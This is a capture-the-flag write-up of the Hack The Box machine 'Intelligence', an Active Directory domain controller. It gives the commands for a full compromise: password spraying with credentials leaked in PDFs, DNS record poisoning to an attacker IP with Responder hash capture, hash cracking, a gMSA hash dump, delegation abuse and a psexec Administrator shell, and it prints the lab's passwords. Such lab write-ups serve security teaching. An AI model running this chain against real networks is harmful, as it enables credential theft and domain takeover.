## Enumeration
### NMAP

```bash
nmap -sC -sV -v -T4 -Pn -oN scans/nmap.txt 10.10.10.248
```

```text
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Intelligence
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-08-11 22:10:54Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2022-08-11T22:12:14+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Issuer: commonName=intelligence-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-19T00:43:16
| Not valid after:  2022-04-19T00:43:16
| MD5:   7767 9533 67fb d65d 6065 dff7 7ad8 3e88
|_SHA-1: 1555 29d9 fef8 1aec 41b7 dab2 84d7 0f9d 30c7 bde7
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Issuer: commonName=intelligence-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-19T00:43:16
| Not valid after:  2022-04-19T00:43:16
| MD5:   7767 9533 67fb d65d 6065 dff7 7ad8 3e88
|_SHA-1: 1555 29d9 fef8 1aec 41b7 dab2 84d7 0f9d 30c7 bde7
|_ssl-date: 2022-08-11T22:12:14+00:00; +7h00m00s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2022-08-11T22:12:14+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Issuer: commonName=intelligence-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-19T00:43:16
| Not valid after:  2022-04-19T00:43:16
| MD5:   7767 9533 67fb d65d 6065 dff7 7ad8 3e88
|_SHA-1: 1555 29d9 fef8 1aec 41b7 dab2 84d7 0f9d 30c7 bde7
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2022-08-11T22:12:14+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Issuer: commonName=intelligence-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-19T00:43:16
| Not valid after:  2022-04-19T00:43:16
| MD5:   7767 9533 67fb d65d 6065 dff7 7ad8 3e88
|_SHA-1: 1555 29d9 fef8 1aec 41b7 dab2 84d7 0f9d 30c7 bde7
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Website
Website on port 80.

PDF document download.


If we look at the PDF properties we can get the user who created the document.



## Pivot to Tiffany.Molina

### Fuzzing
There's something specific about the naming of this document as well. It's prefixed with the date that it was created, we can brute force this.



I'll use [datelist]([BruteSploit/datelist at master · screetsec/BruteSploit (github.com)](https://github.com/Screetsec/BruteSploit/blob/master/tools/datelist)) to create a custom date range wordlist.

```bash
./datelist -b 2019-01-01 -e 2021-01-01 -f yyyymmdd -s '-' -a '-upload.pdf' -o date_wordlist.txt
```

Now we can use `gobuster` to fuzz directories.

```bash
gobuster dir -u http://intelligence.htb/documents/ -w date_wordlist.txt 
```



We can automate the process of downloading all of these PDF's.

```bash
cat gobuster_dir.txt | awk '{print $1}' | while read line; do curl 'http://intelligence.htb/documents'$line -o $(echo $line | tr -d '/'); done
```



We should get back a bunch of PDF's.



If we look at the contents of each of the files, there is one that contains default credentials for new users.



```text
NewIntelligenceCorpUser9876
```

We can also grab the authors of all these PDF's using `exiftool` similar to the first PDF to build up a user list.

```bash
exiftool * | grep Creator | awk '{print $3}' > userlist.txt
```



We can use `crackmapexec` to spray the password we found against all the users we obtained from the PDFs.

```bash
crackmapexec smb intelligence.htb -u userlist.txt -p 'NewIntelligenceCorpUser9876' --shares | grep -v '[-]'
```



```text
Tiffany.Molina:NewIntelligenceCorpUser9876
```

### SMB

We can view the `IT` share and download a `downdetector.ps1` script.

```bash
smbclient -U 'intelligence.htb/Tiffany.Molina%NewIntelligenceCorpUser9876' //intelligence.htb/IT 
```



There's a comment that says the script runs every 5 minutes.

> # Check web server status. Scheduled to run every 5min



## Pivot to Ted.Graves

### DNS

It makes a request to `web.intelligence.htb` using `Ted.Graves`'s credentials. We can forward the target's DNS using [dnstool]([krbrelayx/dnstool.py at master · dirkjanm/krbrelayx (github.com)](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py)) to us and use Responder to capture hashes.

```bash
python3 dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p NewIntelligenceCorpUser9876 -d 10.10.16.7 -r web.intelligence.htb 10.10.10.248 -a add
```



Setup Responder to listen.

```bash
sudo responder -I tun0
```

After waiting a few minute we should get a hit and get `Ted.Graves`'s hashes.



### Password Cracking
We can crack it using `hashcat`.

```bash
hashcat -m 5600 -a 0 responder.txt /usr/share/wordlists/rockyou.txt --force
```



```text
Ted.Graves:Mr.Teddy
```

## Pivot to SVC_INT

### BloodHound
Dump domain objects and load into Bloodhound.

```bash
bloodhound-python -c All -u Ted.Graves -p Mr.Teddy -d intelligence.htb -dc intelligence.htb -ns 10.10.10.248
```



Looks like our attack path is cut out for us.



We have `ReadGMSAPassword` permissions on `svc_int`.

We can use [gMSADumper](https://raw.githubusercontent.com/micahvandeusen/gMSADumper/main/gMSADumper.py) to dump the hashes for `svc_int`. 



```text
ee6ba16bad56e4fd9cc2a4156710cd2d
```

## Pivot to Administrator

`svc_int` has `AllowedToDelegate` permissions over the DC. We can perform an unconstrained delegation attack to impersonate the Administrator. We first have to request a TGT in the form of a `ccache`.

```bash
impacket-getST intelligence.htb/svc_int$ -dc-ip 10.10.10.248 -impersonate Administrator -spn www/dc.intelligence.htb -hashes :ee6ba16bad56e4fd9cc2a4156710cd2d
```

We initially get an error because our time is too our of sync with the DC.



We can fix this by using NTP.

```bash
sudo apt install ntpdate chrony

timedatectl set-ntp true
sudo ntpdate intelligence.htb
```



Now if we rerun the previous command to generate our TGT it should work.



Export the `ccache` file.

```bash
export KRB5CCACHE=Administrator.ccache
```

Now we can get a shell.

```bash
rlwrap impacket-psexec Administrator@dc.intelligence.htb -k -no-pass
```



### User.txt


### Root.txt


